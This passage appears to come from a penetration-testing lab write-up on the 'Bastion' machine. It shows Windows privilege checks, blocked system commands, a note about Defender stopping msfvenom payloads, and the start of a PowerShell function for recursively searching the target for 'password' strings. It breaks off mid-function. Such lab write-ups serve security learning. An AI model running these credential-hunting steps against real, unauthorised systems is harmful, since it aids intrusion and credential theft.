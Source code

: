 ```
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                            
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled 
```

Nothing fancy on user priviliges.

```
l4mpje@BASTION C:\Users\L4mpje>systeminfo
ERROR: Access denied

l4mpje@BASTION C:\Users\L4mpje>wmic os get
ERROR:
Description = Access denied

l4mpje@BASTION C:\Users\L4mpje>tasklist
ERROR: Access denied
```

Access to basic commands is blocked, additionally Windows Defender does not allow us to execute msfvenom payloads (also encoded) and thus forbids us form quickly running msf exploit suggester. Instead of trying AV / EDR evasion let's check if Powershell is available and try our luck with it.
```
l4mpje@BASTION C:\Users\L4mpje>powershell                                                     
Windows PowerShell                                                            
Copyright (C) 2016 Microsoft Corporation. All rights reserved.               

PS C:\Users\L4mpje>
```

Let's try recursive file search and look for "password" across whole target. This might generate a lot of false / positives, so to make spotting a little bit easier I've came with following recursive grep with 'pattern highlighting' functionality. Those functions might get handy on future attacks.

```
function Write-Host-Highlighted {
    param(
        [Parameter(Mandatory)]
        [string]$Text,
        [Parameter(Mandatory)]
        [string]$Highlight,
        [string]$ForegroundColorMatch = "Red",
        [string]$BackgroundColorMatch = "Yellow"
    )

    $Parts = $Text -split $Highlight
    for ($i = 0; $i -lt $Parts.Length; $i++) {
        if ($i -eq $Parts.Length - 1) {
            Write-Host $Parts[$i] -NoNewline
        } else {
            Write-Host $Parts[$i] -NoNewline
            Write-Host $Highlight -NoNewline -ForegroundColor $ForegroundColorMatch -BackgroundColor $BackgroundColorMatch
        }
    }
}

function Recursive-Grep {
    param(
        [Parameter(Mandatory)]
        [string]$Filter,
        [Parameter(Mandatory)]
        [string]$Pattern
    )

```